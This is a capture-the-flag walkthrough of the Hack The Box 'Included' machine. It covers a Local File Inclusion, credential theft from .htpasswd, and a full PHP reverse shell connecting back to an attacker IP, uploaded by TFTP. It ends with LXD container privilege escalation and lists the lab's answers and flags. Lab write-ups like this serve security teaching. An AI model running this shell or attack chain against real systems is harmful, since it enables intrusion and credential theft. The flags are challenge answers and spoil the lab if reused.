



# Included

This write-up is provided strictly for educational purposes, and documents the full compromise of the **Included** machine from Hack The Box Starting Point (VIP).

The attack path was strictly evidence-based and reproducible. No brute force was used. All exploitation steps were validated directly on the target.

---

## Overview

The compromise chain involved:

- Full TCP and UDP reconnaissance
- Identification of TFTP over UDP
- Discovery of Local File Inclusion (LFI)
- Credential extraction from `.htpasswd`
- Remote Code Execution via TFTP upload + LFI
- Shell as www-data
- Lateral movement to user `mike`
- Privilege escalation via LXD group abuse
- Alpine container exploitation
- Host filesystem mount
- Root flag extraction

---

## Answers Summary

- **UDP service** → `TFTP`
- **Web vulnerability** → `Local File Inclusion`
- **TFTP directory** → `/var/lib/tftpboot/`
- **Interesting file** → `.htpasswd`
- **Mike's group** → `lxd`
- **Container distribution** → `alpine`
- **Privileged flag** → `security.privileged=true`
- **Root path after mount** → `/mnt/root/`
- **User Flag** → `a56ef91d70cfbf2cdb8f454c006935a1`
- **Root Flag** → `c693d9c7499d9f572ee375d4c14c7bcf`

---

## 1. Initial Reconnaissance

Full TCP scan:

```bash
sudo nmap -sCV <target-ip> -p- --min-rate 1000
```

Result:

```
80/tcp open http
```

UDP scan:

```bash
sudo nmap -sU <target-ip>
```

Relevant result:

```
69/udp open|filtered tftp
```

TFTP was identified as the UDP service.

---

## 2. Local File Inclusion Discovery

The webpage used a parameter:

```
?file=home.php
```

Testing path traversal:

```bash
curl "http://<target-ip>/?file=../../../../etc/passwd"
```

The contents of `/etc/passwd` were displayed, confirming **Local File Inclusion**.

---

## 3. TFTP Default Directory

From `/etc/passwd`:

```
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

This confirmed the default directory:

```
/var/lib/tftpboot/
```

---

## 4. Credential Extraction

Using LFI:

```bash
curl "http://<target-ip>/?file=.htpasswd"
```

Credentials retrieved:

```
mike:Sheffield19
```

---

## 5. Remote Code Execution – Reverse Shell

The initial minimal webshell was not retained as it provided no additional learning value. The exploitation moved directly to a full reverse shell.

### Reverse Shell File Used

The exact file uploaded was:

```php
<?php
// php-reverse-shell - pentestmonkey modified for HTB

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.58';  // <-- CHANGE YOUR VPN IP
$port = 4444;        // <-- LISTENER PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = '/bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    if ($pid == -1) {
        exit(1);
    }
    if ($pid) {
        exit(0);
    }
    if (posix_setsid() == -1) {
        exit(1);
    }
    $daemon = 1;
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

while (1) {
    if (feof($sock)) {
        break;
    }

    if (feof($pipes[1])) {
        break;
    }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        $input = fread($sock, $chunk_size);
        fwrite($pipes[0], $input);
    }

    if (in_array($pipes[1], $read_a)) {
        $input = fread($pipes[1], $chunk_size);
        fwrite($sock, $input);
    }

    if (in_array($pipes[2], $read_a)) {
        $input = fread($pipes[2], $chunk_size);
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

?>
```

Upload via TFTP:

```bash
busybox tftp -p -l rev.php -r rev.php <target-ip>
```

Listener started on attacker machine:

```bash
nc -lvnp 4444
```

Trigger via LFI from an other terminal:

```bash
curl "http://<target-ip>/?file=../../../../var/lib/tftpboot/rev.php"
```

Shell obtained as:

```
www-data
```



---

## 6. Lateral Movement

Switch user:

```bash
su mike
```

Password extracted earlier from `.htpasswd`:

```
Sheffield19
```

User flag:

```bash
cat /home/mike/user.txt
```



---

## 7. Privilege Escalation via LXD

Confirmed group membership:

```bash
id
```

```
lxd
```

### Internet Restriction Analysis

The target machine had **no internet access**.

Attempting remote image import:

```bash
lxc image copy images:alpine/3.18 local:
```

Resulted in DNS resolution failure.

Therefore, the Alpine image was built locally on the attacker machine and transferred manually.

---

### Building Alpine Locally (Attacker Machine)

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

The script required root privileges:

```bash
sudo ./build-alpine
```

This generated:

```bash
ls
```

Output:

```
alpine-v3.13-x86_64-20210218_0139.tar.gz
alpine-v3.23-x86_64-20260217_0214.tar.gz
```

The latest version was selected:

```
alpine-v3.23-x86_64-20260217_0214.tar.gz
```

---

### Hosting the Image (Attacker Machine)

```bash
python3 -m http.server 8000
```

---

### Downloading on Target

On the target machine:

```bash
wget http://10.10.14.58:8000/alpine-v3.23-x86_64-20260217_0214.tar.gz
```

---

### Importing Image

```bash
lxc image import alpine-v3.23-x86_64-20260217_0214.tar.gz --alias alpine
lxc image list
```

Confirmed alias:

```
alpine
```

---

### Creating Privileged Container

```bash
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```

---

## 8. Root Flag Extraction

Inside container:

```bash
cat /mnt/root/root.txt
```



Root access achieved via host filesystem mount.

---

## Conclusion

The Included machine demonstrates:

- The impact of Local File Inclusion
- Credential leakage via exposed `.htpasswd`
- Abuse of TFTP for file upload
- LXD group misconfiguration
- Privileged container exploitation
- Host filesystem mount for root access

A fully reproducible and structured privilege escalation chain leading to complete system compromise.
